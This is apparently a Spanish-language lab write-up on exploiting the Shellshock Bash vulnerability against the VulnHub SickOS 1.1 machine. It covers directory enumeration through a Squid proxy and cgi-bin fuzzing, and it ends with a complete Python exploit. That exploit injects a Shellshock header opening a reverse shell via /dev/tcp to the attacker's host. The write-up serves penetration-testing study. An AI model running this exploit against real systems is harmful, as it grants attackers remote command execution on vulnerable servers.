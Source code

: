 ```yaml
---
title: "Ataque ShellShock"
author: Tuch0
date: 2023-09-17
categories: [Vectores-de-Ataque]
tags: [shellSock]
image:
    path: ../../assets/Miniaturas/VectoresDeAtaque/shellshock.jpg
    width: 800
    height: 500
---
```



#### Desplegamos el laboratorio

```bash
# Descargamos el comprimido
https://www.vulnhub.com/entry/sickos-11,132/

# Importamos la ova 
# 1. VMware
# 2. VirtualBox
```

### ¿Que és?

> Es una vulnerabilidad en el Shell Bash de los sistemas operativos Linux / Unix, el cual **permite ejecutar comandos por atacantes de manera remota, por lo que se le conoce también con el nombe de Bashdoor.**
{: .prompt-info }

### Reconocimiento Web

```bash
# Comando
gobuster dir -u http.//192.168.0.116 --proxy http.//192.168.0.116:3128 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash

# Output
![](../../assets/VectoresDeAtaque/Ataque-ShellShock/1.jpg)
```

> Normalmente , si encuentras un **/cgi-bin** , puede ser factible testear un **"SellShock"**
{: .prompt-info }

![](../../assets/VectoresDeAtaque/Ataque-ShellShock/2.jpg)

> Normalmente , cuando descubrimos el directorio "cgi-bin" , prueba a hacer fuzzing buscando archivos con extensiones como: "pl,sh,cgi"
{: .prompt-info }

![](../../assets/VectoresDeAtaque/Ataque-ShellShock/3.jpg)

### Explotación

![](../../assets/VectoresDeAtaque/Ataque-ShellShock/4.jpg)

![](../../assets/VectoresDeAtaque/Ataque-ShellShock/5.jpg)

> Como vemos si tiene una versión antigua de shell , nosotros desde una cabecera le podemos incorporar un comando , cabe destacar que si no muestra nada por pantalla , lo que tenemos que hacer es añadirle un "echo" antes de el comando , y si no funciona añadimos otro , hasta que funcione.
{: .prompt-info }

![](../../assets/VectoresDeAtaque/Ataque-ShellShock/6.jpg)

### Exploit Automatizado

```python
#!/usr/bin/pytho3


# Importamos las librerias
import sys, signal, requests, threading
from pwn import *

# Funciones
def def_handler(sig, fram):
    print("\n\n[!] Saliendo... \n")
    sys.exit(1)


# Ctrl+C
signal.signal(signal.SIGINT, def_handler)


# Variable generales
main_url = "http://127.0.0.1"
squid_proxy = {'http':"http://192.168.0.116:3128"}
lport = 443


# Funciones
def shellshock_attack():

        # Indicamos la cabecera
        headers = {'User-Agent': "() { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.114/443 0>&1'"}

        # Creamos la petición
        r = requests.get(main_url, headers=headers, proxies=squid_proxy)



    

# Definimos flujo de el programa
if __name__ == "__main__":

    try:
        # Llamamos a la funciòn principal
        threading.Thread(target=shellshock_attack, args=()).start()
    except Exception as e:
        log.error(str(e))
    
    # Nos ponemos en escucha
    shell = listen(lport, timeout=20).wait_for_connection()

    # Validamos si a habido conexión
    if shell.sock is None:
        log.failure("No se puedo establecer conexión")
        sys.exit(1)
    else:
        shell.interactive()

```